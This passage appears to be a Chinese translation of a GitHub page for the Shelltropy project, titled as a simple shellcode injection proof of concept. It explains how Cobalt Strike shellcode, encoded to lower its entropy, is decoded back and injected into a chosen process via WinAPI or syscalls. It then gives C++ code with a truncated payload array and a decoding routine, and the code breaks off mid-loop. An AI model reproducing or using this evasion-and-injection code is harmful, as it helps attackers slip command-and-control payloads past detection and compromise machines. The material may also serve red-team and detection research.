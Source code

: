 ![](img/1dc494f9e2499284b4bbbb47aa61d34e.png)

# 简单外壳代码注入 PoC

为了在进程中注入外壳代码，通过使用[解码器脚本](https://github.com/kleiton0x00/Shelltropy/blob/main/shannonDecoder.cpp)，将这个低熵外壳代码恢复到其原始状态(高熵外壳代码)是很重要的。解码后，使用 WinAPI 或 Syscalls 将其注入到所需的进程中。一个简单的 [Syscall PoC](https://github.com/kleiton0x00/Shelltropy/blob/main/Shelltropy/SyscallsExample/SyscallsExample/SyscallsExample.cpp) 已经在我的 github repo 上发布了，这也是我通常推荐使用的，但是如果你觉得难以理解/使用，下面的 PoC 是一个带有 WinAPI 的普通外壳代码注入技术，更容易熟悉:

```
#include <windows.h>
#include <stdio.h>

//low entropy encoded CS Shellcode (size:891*2)
unsigned char payload[] = { 0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC8,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,...,0x2A,0x2A,0x2A,0x2A,0x90 };
constexpr int cs_shellcode_length = 891; //the default length of high entropy default shellcode in cobalt strike. Change it if you are using another C2
constexpr int number_of_chunks = 5; //make sure it is the same number of chunks during the encoding process
constexpr int chunk_size = cs_shellcode_length / number_of_chunks;
constexpr int remaining_bytes = cs_shellcode_length % number_of_chunks;
constexpr int payload_size_after_entropy_reduction = cs_shellcode_length * 2;

PBYTE shannonDecode(PBYTE high_ent_payload)

{
    constexpr int payload_size = (payload_size_after_entropy_reduction + 1) / 2;
    BYTE lowEntropyPayload[payload_size_after_entropy_reduction] = { 0 };
    memcpy_s(lowEntropyPayload, sizeof lowEntropyPayload, high_ent_payload, payload_size_after_entropy_reduction);
    static BYTE restored_payload[payload_size] = { 0 };
    int encodedShellcodeOffset = 0;
    int shellcodeOffset = 0;

    for (size_t i = 0; i < number_of_chunks; i++)
    {
        for (size_t j = 0; j < chunk_size; j++)
        {
            restored_payload[shellcodeOffset] = lowEntropyPayload[encodedShellcodeOffset];
            encodedShellcodeOffset++;
```
